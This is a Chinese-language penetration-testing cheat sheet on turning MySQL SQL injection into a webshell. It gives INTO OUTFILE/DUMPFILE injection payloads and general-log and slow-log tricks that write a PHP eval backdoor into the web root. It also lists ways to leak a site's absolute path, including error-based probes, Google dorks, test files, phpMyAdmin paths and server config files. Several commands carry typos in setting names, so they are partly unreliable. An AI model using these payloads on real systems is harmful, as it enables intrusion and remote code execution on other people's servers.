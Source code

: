 # 文件导出函数GetShell

## 利用条件

- 数据库当前用户为`root`权限
- 知道当前网站的绝对路径
- PHP的GPC为off状态
- 写入的那个歌路径存在写入权限

## 基于联合查询时

```mysql
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile '网站根目录绝对路径'-- qwe
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile '网站根目录绝对路径'-- qwe
```

## 非联合查询

```mysql
?id=1 into outfile '网站根目录绝对路径' FIELDS TERMINATED BY '<?php phpinfo();?>'-- qwe
```

这个语句的意思是，导出当前数据表到xxx文件中，数据表中的字段以`<?php phpinfo();?>`分隔

形如：

```
id username password 导出后会变成
id<?php phpinfo();?>username<?php phpinfo();?>password
```

## outfile和dumpfile的区别

`outfile:`

1. 支持多行数据同时导出
2. 使用union联合查询时，要保证两侧查询的列数相同
3. 会在换行符制表符后面追加反斜杠
4. 会在末尾追加换行

`dumpfile:`

1. 每次只能导出一行数据
2. 不会在换行符制表符后面追加反斜杠
3. 不会在末尾追加换行

因此，`dumpfile`函数这个函数来顺利写入二进制文件，当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效），当使用`dumpfile`函数时，应该手动添加limit限制来获取不同的行数。

## secure_file_prive

写文件提权，终究是离不开这个配置项：

```
secure_file_prive= ，结果为空的话，表示允许任何文件读写

secure_file_prive=NULL，表示不允许任何文件读写

secure_file_prive=‘某个路径’，表示这个路径作为文件读写的路径

在mysql5.5版本前，都是默认为空，允许读取

在mysql5.6版本后 ,默认为NULL，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。
```

查询该参数配置的情况：

```mysql
show global variables like "%secure%";
```

利用sql语句修改配置项（5.6版本以前，临时修改重启失效）：

```mysql
set global secure_file_prive=""
```

`5.6`版本以后，只能利用配置项修改：

![](img/visitFile&sign=663485c2367709ae3dee4da9b50af7d0.png)

# 日志GetShell

## 全局日志Getshell

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来

```mysql
# 查看日志是否开启
show variables like 'general_log';

# 开启日志功能
set global geeral_log=on;

# 查看文件日志保存位置
show variables like 'general_log_file';

# 设置日志保存位置（getshell的话存放在网站根目录，名为.php）
set global general_log_file='/var/www/html/shell.php';

# 查看日志输出类型 table：将日志存入数据库的日志表中；file：将日志存入文件中
show variables like 'log_output';

# 修改日志存储类型
set global log_output='table/file';
```

GetShell方式：

```mysql
set global geeral_log=on;
set global general_log_file='/var/www/html/shell.php';
select '<?php eval($_POST[8]);?>'
```

## 慢日志GetShell

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式

```mysql
# 查看服务器默认时间值方式
show global variables like '%long_query_time%'
show global variables like '%long%'

# 查看慢日志参数
show global variable like '%slow%';
```

GetShell方式：

```mysql
# 打开慢日志
set global slow_query_log=on

# 设置慢日志路径
set global slow_query_log_file='/var/www/html/shell.php'

# 记录到日志中的语句
select '<?php @eval($_POST[8]);?>' or sleep(20)
```

# 爆绝对路径的方法

上述的提权方式都离不开知道网站的绝对路径，下面是一些得到绝对路径的方法。

## 单引号爆路径

- 直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
   `www.xxx.com/news.php?id=1′`

## 错误参数值爆路径

- 将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
   `www.xxx.com/researcharchive.php?id=-1`

## Google爆路径

- 结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

## 测试文件爆路径

- 很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

## phpmyadmin爆路径

- 一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

## 配置文件找路径

- 如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

# Linux

为什么要把Linux单独提出来说，因为Linux的权限控制很严格，有的时候即使我们完全控住了MYSQL 但是 没有对网站根目录的读写权限，也会很没有办法去利用上述方法写shell
